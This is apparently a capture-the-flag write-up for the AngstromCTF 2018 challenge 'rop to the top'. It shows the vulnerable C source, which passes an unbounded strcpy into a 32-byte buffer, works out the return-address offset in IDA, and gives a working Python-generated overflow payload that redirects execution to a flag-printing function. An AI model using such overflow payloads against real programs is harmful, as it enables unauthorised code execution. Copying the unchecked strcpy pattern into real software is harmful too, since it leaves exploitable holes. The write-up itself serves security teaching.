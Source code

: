 # rop to the top

## Description

Here's some binary and source. Navigate to /problems/roptothetop/ on the shell server to try your exploit out!

hint: Look up "Return Oriented Programming" (ROP) vulnerabilities
and figure out how you might be able to change the return address.

## Solving

First, as always, I ran the binary. Here is what I saw:
<pre><font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>/mnt/hgfs/Shared</b></font># mv ./rop_to_the_top32 ./rop32
<font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>/mnt/hgfs/Shared</b></font># ./rop32
Usage: ./rop_to_the_top32 &lt;inputString&gt;
<font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>/mnt/hgfs/Shared</b></font># ./rop32 &quot;some string&quot;
Now copying input...
Done!
</pre>

So the program takes one string argument and just does something with it. Now let's see the source code.
```C
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

void the_top(){

    system("/bin/cat flag");

}

void fun_copy(char *input){

    char destination[32];
    strcpy(destination, input);
    puts("Done!");
}

int main (int argc, char **argv){
    gid_t gid = getegid();
    setresgid(gid,gid,gid);

    if (argc == 2){
        puts("Now copying input...");
        fun_copy(argv[1]);
    } else {
        puts("Usage: ./rop_to_the_top32 <inputString>");
    }

    return 0;
}
```

The program actually copies the input to the buffer (destination variable). Still, as I can see, there is no limitation for the input, but the buffer has only 32 bytes in length. So, I can overflow the buffer. Another important thing is that there is a function "the_top" which actually prints the flag. Now I need to figure out how can I use the buffer overflow to call "the_top", so I can get the flag.

I decided to look at this program in the IDA. I found function "fun_copy" and looked into its stack. Here's the destination variable's start

![dest_starts](https://raw.githubusercontent.com/0awawa0/CTF-Writeups/master/AngstromCTF%202018/Binary/rop%20to%20the%20top%20(130)/src/dest_starts.PNG)

I need the buffer's start offset. It's -28h. And here I see the end of the buffer and the main thing is that here you can see the variable called 'r'. It's a return address (the address of the command that will be executed after the function finishes it's work). And I can rewrite its value, overflowing the buffer.

![return_address](https://raw.githubusercontent.com/0awawa0/CTF-Writeups/master/AngstromCTF%202018/Binary/rop%20to%20the%20top%20(130)/src/return_offset.PNG)

And I need its offset too. It's +04h. So, there is ```4h-(-28h)=2Ch=44``` bytes from the start of the buffer and to the start of the return address. Now, I need to write 44 bytes to the input and 4 more bytes to rewrite return address.

Next, I found the function's "the_top" address. Here you can see it (08 04 84 DB):

![address](https://raw.githubusercontent.com/0awawa0/CTF-Writeups/master/AngstromCTF%202018/Binary/rop%20to%20the%20top%20(130)/src/addressPNG.PNG)

Okay, now I have everything to get the flag. But I can't write the address from the keyboard, cause it's non-printable bytes. So I will use Python to do it. So, let's do it:

<pre><font color="#EF2929"><b>oot@kali</b></font>:<font color="#729FCF"><b>/mnt/hgfs/Shared</b></font># ./rop32 &quot;`python -c \&quot;print &apos;A&apos;*44 + &apos;\xdb\x84\x04\x08&apos;&quot;`&quot;
Now copying input...
Done!
actf{strut_your_stuff}
Segmentation fault
</pre>